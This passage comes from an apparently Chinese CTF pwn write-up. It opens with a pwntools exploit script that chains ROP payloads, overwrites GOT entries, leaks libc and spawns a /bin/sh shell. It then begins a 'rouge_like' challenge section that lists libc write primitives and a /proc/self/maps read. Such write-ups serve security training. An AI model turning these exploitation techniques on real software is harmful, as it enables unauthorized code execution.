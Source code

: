 ```python
payload = flat(b'\x00'*0x80, got_addr + 0x100, fget_read,
               strlen_got + 0x80, fget_read, strlen_got + 0x98, puts_addr, strlen_got + 0x700, fget_read)
r.sendline(payload)

# gdb.attach(r, 'b*0x004012cd')

r.recvuntil(b'OK')
payload = flat([0], got_addr + 0x820, leave_ret,[0], got_addr + 0x830, leave_ret)
payload = payload.ljust(0x80, b'\x00') + flat(got_addr + 0x810, leave_ret)
r.sendline(payload)

r.recvuntil(b'OK')
payload = flat(puts_plt)
r.sendline(payload)

# gdb.attach(r, 'b*0x004012cd')

r.recvuntil(b'OK!\n')
libc_base = u64(r.recv(6).ljust(8, b'\x00')) - 0x88540
print(hex(libc_base))

system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + next(libc.search(asm("pop rdi; ret")))

r.recvuntil(b'OK!\n')
payload = flat(b'\x00' * 0x88, pop_rdi, bin_sh_addr, system_addr)
r.sendline(payload)

r.interactive()
```

## Day3 rouge_like
<font style="background-color:rgba(255, 255, 255, 0);">官方 wp：</font>

<font style="background-color:rgba(255, 255, 255, 0);">题目非常新颖，一共设置了三个关卡。</font>

<font style="background-color:rgba(255, 255, 255, 0);">对于第一关，选手可以选择如下漏洞利用：</font>

+ <font style="background-color:rgba(255, 255, 255, 0);">指定</font>`<font style="background-color:rgba(255, 255, 255, 0);">libc</font>`<font style="background-color:rgba(255, 255, 255, 0);">地址写</font>`<font style="background-color:rgba(255, 255, 255, 0);">8</font>`<font style="background-color:rgba(255, 255, 255, 0);">字节</font>`<font style="background-color:rgba(255, 255, 255, 0);">0</font>`
+ <font style="background-color:rgba(255, 255, 255, 0);">指定</font>`<font style="background-color:rgba(255, 255, 255, 0);">libc</font>`<font style="background-color:rgba(255, 255, 255, 0);">地址写</font>`<font style="background-color:rgba(255, 255, 255, 0);">1</font>`<font style="background-color:rgba(255, 255, 255, 0);">字节任意值</font>
+ <font style="background-color:rgba(255, 255, 255, 0);">查看</font>`<font style="background-color:rgba(255, 255, 255, 0);">/proc/self/maps</font>`<font style="background-color:rgba(255, 255, 255, 0);">，获得大部分地址</font>
